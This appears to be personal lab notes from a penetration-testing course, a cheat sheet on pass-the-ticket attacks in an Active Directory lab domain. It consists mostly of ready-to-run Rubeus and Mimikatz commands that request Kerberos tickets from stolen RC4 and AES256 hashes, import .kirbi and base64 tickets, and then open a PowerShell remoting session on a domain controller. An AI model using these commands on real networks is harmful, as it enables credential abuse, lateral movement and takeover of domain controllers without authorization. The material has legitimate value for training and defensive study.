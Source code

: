 # Pass the ticket 
## rubeus
if we have kerberos tickets, we can use them to move laterally within an environment 
```
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```
we can import tickets also 
```
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
can also use base64
```
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```
## mimikatz
```
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

# Powershell Remoting
Say after you use mimikatz to get the kerberos::ptt then we exit mimikatz and then open 
```
powershell 
Enter-PSSession -ComputerName DC01
```
to do that with rubeus 
```
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
in a new cmd exe window 
```
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
powershell 
Enter-PSSession -ComputerName DC01
```